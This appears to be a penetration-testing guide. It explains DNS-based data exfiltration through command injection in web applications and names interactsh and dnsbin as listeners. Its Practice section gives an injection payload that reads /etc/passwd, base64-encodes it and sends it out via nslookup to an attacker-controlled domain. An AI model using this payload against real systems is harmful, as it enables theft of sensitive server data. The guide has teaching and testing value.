

# DNS Based Data Exfiltration

## Context

The objective of this guide is to demonstrate how to exfiltrate data through DNS requests using command injection vulnerabilities present in web applications. It assumes foundational knowledge of the DNS protocol, data exfiltration methods, and command injection techniques.

## Theory

### DNS as a Covert Exfiltration Channel

DNS-based data exfiltration leverages DNS queries to transmit sensitive data from a compromised host to an attacker-controlled domain. This technique is effective because DNS traffic is often allowed outbound through firewalls and is subject to less scrutiny compared to other protocols, making it a stealthy vector for data exfiltration. The typical attack sequence involves an attacker injecting commands into a vulnerable application, which then triggers DNS lookups. These lookups embed sensitive data within their subdomains, directing them towards an attacker-controlled DNS server.

### Mechanics of DNS Request Exfiltration

Sensitive data intended for exfiltration is encoded and appended as a subdomain in DNS queries to an attacker-controlled domain. The primary weakness exploited is the common lack of filtering or inspection of DNS queries for unintended data leakage, especially on the standard DNS port, UDP/53. Visualizing the process, the compromised web application allows command injection, resulting in a system command execution that forms a DNS query. This query, containing encoded user data as a subdomain, is sent to the attacker's DNS server, allowing the attacker to capture and decode the data.



### DNS Exfiltration Tooling and Infrastructure

Tools like **dnsbin** and **interactsh** facilitate this technique by providing attacker-controlled DNS endpoints that listen for and capture DNS queries with exfiltrated data. The attacker needs to control a particular domain and set up infrastructure to monitor and analyze DNS queries effectively.

## Practice

### Exfiltrating Data via DNS Requests Using Command Injection

- **Set up an attacker-controlled DNS endpoint**:
  - Use tools like **interactsh** or **dnsbin** to create an endpoint that receives DNS queries containing exfiltrated data.

- **Command Line**:
  ```bash
  interactsh-client
  ```
  - Start the interactsh client to generate a unique domain and listen for incoming DNS queries.

- **Identify a Command Injection Point**:
  - Confirm the presence of a command injection vulnerability in the target web application. This step assumes that you have already identified such a point based on your prior knowledge and reconnaissance.

- **Inject Exfiltration Payload**:
  - Payload:
    ```bash
    $(cat /etc/passwd | base64 | tr -d '\n' | xargs -I{} nslookup {}.attacker-domain.com)
    ```
  - This command injects a system call to read `/etc/passwd`, encodes its contents in base64, and sends them via DNS queries using `nslookup` to the attacker-controlled domain.

- **Monitor DNS Queries**:
  - Watch the interactsh or dnsbin interface for incoming DNS queries containing the exfiltrated data. These queries reveal subdomains with encoded sensitive data to be further processed and decoded by the attacker.

## Tools

- **interactsh-client**
- **dnsbin** 